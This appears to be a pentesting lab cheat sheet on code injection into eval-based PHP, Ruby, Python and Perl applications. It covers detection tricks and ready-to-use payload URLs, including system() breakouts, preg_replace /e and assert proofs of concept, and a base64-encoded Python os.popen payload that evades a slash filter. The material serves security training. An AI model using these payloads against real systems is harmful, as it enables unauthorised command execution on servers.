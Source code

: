 # Code Execution

As with SQL injection, you can inject commands to test and ensure you have a code injection:

* By using comments and injecting ```/* random value */```.
* By injecting a simple concatenation ```"."``` (where " are used to break the syntax and     reform it correctly, replacing the parameter you provided with a string concatenation, for example ```"."ha"."cker"."``` instead of hacker.

Don't forget that you will need to URL-encode some of the characters (```#``` and```;```) before sending the request.

You can also use time-based detection for this issue by using the PHP function ```sleep```. You will see a time difference between:

* Not using the function sleep or calling it with a delay of zero: ```sleep(0)```.
* A call to the function with a long delay: ```sleep(10)```. 

Obviously, the code injection should be in the language used by the application. Therefore, the first step in an injection is to find what language is used by the application. To do so you can look at the response's headers, generate errors or look at the way special characters are handled by the application (for example by comparing + and . for concatenation of strings.

This example is a trivial code injection. If you inject a single quote, nothing happens. However, you can get a better idea of the problem by injecting a double quote: 

```Parse error: syntax error, unexpected '!', expecting ',' or ';' in /var/www/index.php(6) : eval()'d code on line 1```

Based on the error message, we can see that the code is using the function eval: "Eval is evil...".

We saw that the double quote breaks the syntax, and that the function eval seems to be using our input. From this, we can try to work out payloads that will give us the same results:

* ```"."``` - we are just adding a string concatenation; this should give us the same value.
* ```"./*pentesterlab*/"``` - we are just adding a string concatenation and information inside comments; this should give us the same value.

Now that we have similar values working, we need to inject code. To show that we can execute code, we can try to run a command (for example uname -a using the code execution). The full PHP code looks like:

```system('uname -a');```

The challenge here is to break out of the code syntax and keep a clean syntax. There are many ways to do it:

* By adding dummy code: ```".system('uname -a'); $dummy=".```
* By using comment: ```".system('uname -a');#``` or ```".system('uname -a');//```.



## PHP

* Comment out code: ```//``` (%2f%2f)
* Run a command:   ```system('ls')

Try adding ```;}%2f%2f``` - eg: ```?order=id;}%2f%2f```. In this example we can inject arbitrary code and gain code execution using `?order=id);}system('uname%20-a');//` 

#### pcre_replace_eval

Another very dangerous modifier exists in PHP: `PCRE_REPLACE_EVAL` (`/e`). This modifier will cause the function `preg_replace` to evaluate the new value as PHP code, before performing the substitution. This is deprecated as of PHP 5.5.0.

Vulnerable code:```http://domainname/?new=hacker&pattern=/lamer/&base=Hello%20lamer```

POC: ```http://domainname/?new=phpinfo()&pattern=/lamer/e&base=Hello%20lamer```

#### Assert

Vuln Code: ```http://example.com/?name=hacker```

POC: ```http://example.com/?name=phpinfo():%20hacker%27.phpinfo().%27```



## Ruby

In this exercise, we are dealing with a Ruby application as you can quickly tell by injecting a double quote in the `username` parameter.

Since the application is in development mode, we get a lot of details on the error. The following line is especially interesting:

```ruby
@message = eval "\"Hello "+params['username']+"\""
```

Here, we will need to do the following:

* A double-quote `"` to break out of the string.
* Add a `+` sign for string concatenation (don't forget to URL-encode it - ```%2b```)
* Add a call to the command (`[COMMAND]`) we want to run using ``` `[COMMAND]` ```.
* Add another `+` sign for string concatenation.
* Another double-quote `"` to close the one that was already there.

POC: ```http://example.com/?username=hacker%22%2b`uname -a`%2b%22```



## Python

In this exercise, we are dealing with a Python application. Like with the previous exercise, we can see that injecting a double-quote give us an error. First, let's see how we can properly close the double-quote. We can inject a `+` (properly encoded - ```%2b```) and another double-quote to get a response without error.

Now, we need to make sure it's a Python application, we can for example use: `"%2bstr(True)%2b"test`. The fact that both `str()` and `True` are available give us a pretty good chance that Python is used. For the rest of the challenge we will put our payload inside of the call to `str()`.

We can see a `0` coming back in the response. This shows that the command got executed successfully. If you try an invalid command like `hacker`, you will get `32512` meaning that the process returned `127` (since the command is not found).

It may also be valuable to get the value returned by the command. To do this, you can use: `os.popen('[CMD]').read()` instead of `os.system('[CMD]')`. 

If we try to use `os.system('id')` for example. we get an error message. This is likely due to the fact that the `os` module (that we need to access `system`) is not loaded. We can use the following syntax to load and run the `system` function: `__import__('os').system(...`. 

The previous challenge allowed `/` in the path since the following Flask route was used:
``` @app.route('/hello/')```

This challenge prevents `/` in the path since the following route is used: 
```@app.route('/hello/user')```

This is obviously something you can only guess by trial and error. We can go back to the previous payload using `id` and it will work. However, we can't run  `/usr/local/bin/score` (since we need a `/`).

POC: ```http://example.com/hello/hacker%22%2bstr(__import__('os').system('command'))%2b%22test```

To bypass this issue, we can use base64 encoding. We will send a base64 encoded command to the server (to avoid the `/` in the path) and tell the server to decode it using the function `b64decode`. The call to `b64decode` will be done by the server as part of our payload.  Unfortunately the `base64` module is not loaded, so we will need to use the `__import__` trick to load `base64`. Finally, the command to score will need to be base64-encoded before being sent to the server (so the payload can decode it).

1. Start with evidence of code injection: ```http://example.com/hello/hacker"%2b""%2b"``` (doesn't throw an error)
2. Replace centre "" with str() and insert a command: ```http://example.com/hello/hacker"%2bstr(__import__('os').popen('uname -a').read())%2b"```
3. Should return uname details. Next step is to construct a base64 encoded payload so that we don't need to insert '/' into the URL:
	* Command to run: ```/usr/local/bin/score b1fca3c7-443e-4923-b598-a95b41e94b65```
	* Base64 encoded version: ```L3Vzci9sb2NhbC9iaW4vc2NvcmUgYjFmY2EzYzctNDQzZS00OTIzLWI1OTgtYTk1YjQxZTk0YjY1```
4. Resulting POC: ```http://example.com/hello/hacker%22%2bstr(__import__('os').popen(__import__('base64').b64decode('L3Vzci9sb2NhbC9iaW4vc2NvcmUgYjFmY2EzYzctNDQzZS00OTIzLWI1OTgtYTk1YjQxZTk0YjY1')).read())%2b%22```

Lesson: Executing code should be outside the payload - only encode the string to be passed to it.



## Perl

```hacker2%27.`uname -a`.%27```

The . performs a concatenation